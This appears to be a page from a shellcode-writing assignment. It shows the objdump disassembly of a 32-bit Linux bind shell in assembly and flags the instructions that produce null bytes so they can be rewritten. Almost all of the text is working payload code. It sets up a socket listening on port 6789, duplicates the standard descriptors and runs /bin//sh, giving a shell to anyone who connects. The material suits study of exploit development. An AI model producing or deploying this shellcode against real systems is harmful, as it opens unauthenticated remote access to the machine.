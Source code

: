 ```mov    eax,0x66``` should be converted to ```mov   al,0x66```<br/>

```nasm
; initial shellcode
[sengen@manjaro-x86 assignment1]$ objdump -d ./bind_shell_asm2 -M intel

./bind_shell_asm2:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    eax,eax
 8048062:	89 c3                	mov    ebx,eax
 8048064:	50                   	push   eax
 8048065:	b8 66 00 00 00       	mov    eax,0x66 ; <==
 804806a:	bb 01 00 00 00       	mov    ebx,0x1  ; <==
 804806f:	53                   	push   ebx
 8048070:	6a 02                	push   0x2
 8048072:	89 e1                	mov    ecx,esp
 8048074:	cd 80                	int    0x80
 8048076:	89 c7                	mov    edi,eax
 8048078:	b8 66 00 00 00       	mov    eax,0x66 ; <==
 804807d:	bb 02 00 00 00       	mov    ebx,0x2  ; <==
 8048082:	6a 00                	push   0x0      ; <==
 8048084:	66 68 1a 85          	pushw  0x851a
 8048088:	66 6a 02             	pushw  0x2
 804808b:	89 e1                	mov    ecx,esp
 804808d:	6a 10                	push   0x10
 804808f:	51                   	push   ecx
 8048090:	57                   	push   edi
 8048091:	89 e1                	mov    ecx,esp
 8048093:	cd 80                	int    0x80
 8048095:	b8 66 00 00 00       	mov    eax,0x66 ; <==
 804809a:	bb 04 00 00 00       	mov    ebx,0x4  ; <==
 804809f:	6a 01                	push   0x1
 80480a1:	57                   	push   edi
 80480a2:	89 e1                	mov    ecx,esp
 80480a4:	cd 80                	int    0x80
 80480a6:	b8 66 00 00 00       	mov    eax,0x66 ; <==
 80480ab:	bb 05 00 00 00       	mov    ebx,0x5  ; <==
 80480b0:	6a 00                	push   0x0      ; <==
 80480b2:	6a 00                	push   0x0      ; <==
 80480b4:	57                   	push   edi
 80480b5:	89 e1                	mov    ecx,esp
 80480b7:	cd 80                	int    0x80
 80480b9:	31 c9                	xor    ecx,ecx
 80480bb:	89 c3                	mov    ebx,eax
 80480bd:	b8 3f 00 00 00       	mov    eax,0x3f ; <==

080480c2 <dup2_loop>:
 80480c2:	cd 80                	int    0x80
 80480c4:	b8 3f 00 00 00       	mov    eax,0x3f ; <==
 80480c9:	41                   	inc    ecx
 80480ca:	83 f9 02             	cmp    ecx,0x2
 80480cd:	7e f3                	jle    80480c2 <dup2_loop> ; <==
 80480cf:	b8 0b 00 00 00       	mov    eax,0xb  ; <==
 80480d4:	6a 00                	push   0x0      ; <==
 80480d6:	68 6e 2f 73 68       	push   0x68732f6e
 80480db:	68 2f 2f 62 69       	push   0x69622f2f
 80480e0:	89 e3                	mov    ebx,esp
 80480e2:	b9 00 00 00 00       	mov    ecx,0x0  ; <==
 80480e7:	ba 00 00 00 00       	mov    edx,0x0  ; <==
 80480ec:	cd 80                	int    0x80
```
